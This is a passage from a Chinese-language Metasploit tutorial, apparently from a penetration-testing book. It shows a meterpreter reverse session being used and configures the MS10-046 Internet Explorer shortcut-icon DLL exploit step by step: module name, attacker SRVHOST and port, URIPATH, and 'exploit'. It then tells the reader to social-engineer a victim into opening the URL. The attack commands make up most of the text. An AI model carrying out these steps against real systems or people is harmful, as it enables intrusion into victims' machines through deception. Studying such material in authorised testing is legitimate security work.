 ![Tutorial](graphics/3589_06_07.jpg)

现在，当 URL 在受害者的系统中打开时，它将向攻击者的系统发送反向连接。让我们看看这是怎么回事。

![Tutorial](graphics/3589_06_08.jpg)

运行 URL 后，我们可以在`msfconsole`中看到反向连接已经建立，`notepad.exe`流程迁移到 1804。

![Tutorial](graphics/3589_06_09.jpg)

我们可以通过任务管理器在受害者的系统中看到迁移的进程。

![Tutorial](graphics/3589_06_10.jpg)

要检查已创建的`meterpreter`会话，请键入`sessions`。

![Tutorial](graphics/3589_06_11.jpg)

现在选择`meterpreter`会话以利用受害者的系统。选择会话时使用的命令为`sessions –i <Id>`；例如，这里我们使用的是`sessions –i 1`。

![Tutorial](graphics/3589_06_12.jpg)

选择会话后，我们立即获得`meterpreter`会话。然后我们可以进行进一步的开发。例如，在上图中，我们可以看到用于检查系统信息的`sysinfo`命令。

## 利用 Internet Explorer 快捷方式图标进行攻击

我们将要演示的另一个浏览器漏洞是包含恶意 DLL 的快捷方式图标。此漏洞是一种在 Windows XP 下运行在 IE 6 上的社会工程攻击。我们只需要引诱受害者点击链接在他的系统上运行漏洞攻击。启动`msfconsole`并输入`use windows/browser/ms10_046_shortcut_icon_dllloader`。

![Internet Explorer shortcut icon exploit](graphics/3589_06_13.jpg)

现在输入`show options`以详细查看我们必须在漏洞利用中设置的所有选项。

![Internet Explorer shortcut icon exploit](graphics/3589_06_14.jpg)

需要的第一个选项是`SRVHOST`。反向连接需要 IP 地址，所以这里我们通过键入`set SRVHOST 192.168.0.109`来设置攻击者的机器 IP。

![Internet Explorer shortcut icon exploit](graphics/3589_06_15.jpg)

现在输入`set SRVPORT 80`设置地址，即本地端口地址。

![Internet Explorer shortcut icon exploit](graphics/3589_06_16.jpg)

下一个选项是通过输入`set URIPATH /`将`URIPATH`路径设置为默认设置。

![Internet Explorer shortcut icon exploit](graphics/3589_06_17.jpg)

现在，所有选项都已设置并准备好运行漏洞利用。所以输入`exploit`。

![Internet Explorer shortcut icon exploit](graphics/3589_06_18.jpg)

现在该由你来做一些聪明的社会工程了。将 URL 提供给受害者，然后等待反向连接。

![Internet Explorer shortcut icon exploit](graphics/3589_06_19.jpg)
